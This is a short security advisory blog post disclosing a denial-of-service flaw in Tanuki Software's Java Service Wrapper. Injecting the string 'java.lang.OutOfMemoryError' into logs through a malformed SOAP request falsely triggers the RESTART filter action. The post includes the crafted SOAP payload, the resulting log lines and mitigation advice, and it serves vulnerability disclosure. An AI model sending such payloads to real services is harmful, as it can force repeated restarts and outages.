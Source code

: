 ```yaml
---
layout: post
title:  "Process restart / Denial of Service by logfile injection on Tanuki Software Java Service Wrapper filter action"
date:   2019-08-29 21:50:00 MEST
author: 'psytester'
---
```


Recently, when I played with logfile injection, I found a nice catch in the filter action of Tanuki Software's Java Service wrapper when [OutOfMemoryError Detection](https://wrapper.tanukisoftware.com/doc/english/prop-filter-x-n.html#outofmemory) is used.

```
The simplest way to do this is as follows:
Example:
wrapper.filter.trigger.1=java.lang.OutOfMemoryError
wrapper.filter.action.1=RESTART
```

This sample configuration might also be used in the production environment?

We just need to send a payload that will be propagate to the wrapper.log file at runtime.
In my case, I addressed a Soap IF and created a request with errors to cause an unmarshalling error.

Build a faulty SOAP request that ensures that the string java.lang.OutOfMemoryError is written in the log file, I added the non existing "java.lang.OutOfMemoryError" element to the namespace:
```
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:ns2=......>
   <soap:Header/>
   <soap:Body>
      <ns2:SoapOperation>
		.....
        <ns2:validElement><ns2:java.lang.OutOfMemoryError>Inject Me</ns2:java.lang.OutOfMemoryError></ns2:validElement>
		.....
      </ns2:SoapOperation>
   </soap:Body>
</soap:Envelope>
```

The goal is achieved, the false positive leads to the process restart:
```
INFO   | jvm 1    | 2019/08/21 13:38:13 | DefaultValidationEventHandler: [ERROR]: unexpected element (........., local:"java.lang.OutOfMemoryError"). Expected elements are (none)
STATUS | wrapper  | 2019/08/21 13:38:13 | The JVM has run out of memory.  Restarting JVM.
```

Mitigation:
- do not use this special filter action
- or the application needs to catch such exceptions, otherwise it will be visible in wrapper.log

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
